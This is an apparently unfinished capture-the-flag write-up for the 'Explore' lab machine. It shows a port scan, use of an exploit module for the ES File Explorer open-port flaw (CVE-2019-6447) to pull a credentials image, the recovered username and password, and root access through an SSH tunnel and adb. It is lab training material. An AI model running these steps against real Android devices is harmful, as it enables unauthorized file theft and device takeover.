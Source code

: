 # Explore Write-Up

Easy

Tags:
`Android`
`Network`
`Easy`
`Internal`
`Penetration Tester Level 1`
`Clear Text Credentials`
`CVE-2019-6447`
`Management Protocols`
`Arbitrary File Read`
`Public Vulnerabilities`
`Password Reuse`
`Security Tools`
`CVE Exploitation`

## Intro

1. 

## Enumeration

### Port scanning

```
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.247 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sV 10.10.10.247
```

```
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
5555/tcp  filtered freeciv
42135/tcp open     http    ES File Explorer Name Response httpd
46717/tcp open     unknown
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
```

use es_file_explorer_open_port

set action LISTPICS

getFile creds.jpg

Kristi
Kr1sT!5h@Rp3xPl0r3!

## Privilege Escalation

ssh -L 5555:127.0.0.1:5555 -p 2222 kristi@10.10.10.247 

adb root

adb shell
